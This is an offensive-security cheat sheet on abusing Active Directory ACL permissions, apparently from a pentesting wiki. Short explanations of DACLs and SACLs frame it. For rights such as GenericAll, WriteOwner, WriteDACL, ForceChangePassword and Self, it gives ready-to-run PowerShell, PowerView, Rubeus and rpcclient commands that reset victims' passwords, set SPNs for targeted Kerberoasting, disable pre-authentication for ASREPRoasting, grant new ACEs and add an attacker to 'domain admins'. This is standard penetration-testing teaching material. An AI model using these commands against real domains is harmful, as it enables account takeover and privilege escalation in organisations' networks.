 # ACLs Abuse

> An **ACL is an ordered list of ACEs (access control entry)** that define the protections that apply to an object and its properties. Each ACE identifies a security principal and specifies a set of access rights that are allowed, denied, or audited for that security principal. An object’s security descriptor can contain two ACLs:
>
> * A DACL that identifies the users and groups that are allowed or denied access
> * A SACL that controls how access is audited
>
> When a user tries to access a file, the Windows system runs an AccessCheck and compares the security descriptor with the users access token and evaluates if the user is granted access and what kind of access depending on the ACEs set.

{% embed url="https://lootsec.io/abusing-active-directory-acl/" %}

## DACL

> A DACL, Discretionary Access Control List, will contain details that help identify which user or group has access to an object and who is denied access.
>
> Only the access control lists that define the degree of access for users and groups are called DACLs.

### List

#### **GenericAll**

Full rights to the object (add users to a group or reset user's password)

**on User**

1. **Change the password** of the user:

```powershell
net user <username> <password> /domain

# from linux
rpcclient -U KnownUsername 10.10.10.192
setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```

2. **Targeted Kerberoasting**: You could make the user kerberoastable setting an SPN on the account, kerberoast it and attempt to crack offline:

```powershell
# Set SPN
Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
# Get Hash
.\Rubeus.exe kerberoast /user:<username> /nowrap
# Clean SPN
Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose

# You can also use the tool https://github.com/ShutdownRepo/targetedKerberoast 
# to get hashes of one or all the users
python3 targetedKerberoast.py -domain.local -u <username> -p password -v
```

4. **Targeted ASREPRoasting**: You could make the user ASREPRoastable by disabling preauthentication and then ASREProast it:

```powershell
Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
```

#### **GenericWrite**

Update object's attributes (i.e logon script)

**on Group**

Claire has GenericWrite over backups-admins group

```powershell
# add claire to the group !
net group backup-admins claire /add
```

#### **WriteOwner**

Change object owner to attacker controlled user take over the object

**on User**

Tom has WriteOwner on Claire

```powershell
### Create powershell credential and change credentials. 
### NOTE!! IN A REAL PENTEST YOU WOULD ENABLE REVERSIBLE ENCRYPTION OR MAKE USER KERBEROSTABLE OR SOMETHING ELSE AND NOT CHANGE THE PASSWORD IN A PRODUCTION ENVIRONMENT
$cred = ConvertTo-SecureString "qwer1234QWER!@#$" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```

#### **WriteDACL**

Modify object's ACEs and give attacker full control right over the object

**on User**

You can add new ACLs

```powershell
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
```

#### **ForceChangePassword**

Ability to change user's password

```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}

# same with powerview
Set-DomainUserPassword -Identity delegate -Verbose

# from linux
rpcclient -U KnownUsername 10.10.10.192
setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```

#### **Self**

Another privilege that enables the attacker adding themselves to a group.

```powershell
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

## SACL

> SACLs are used for establishing system-wide security policies for actions such as logging or auditing resource access. The SACL attached to a system, directory, or file object specifies
>
> * Which security principals (users, groups, computers) should be audited when accessing the object
> * Which access events should be audited for these principals
> * Whether a Success or Failure attribute is generated for an access event, depending on the permissions granted in the DACL for the object
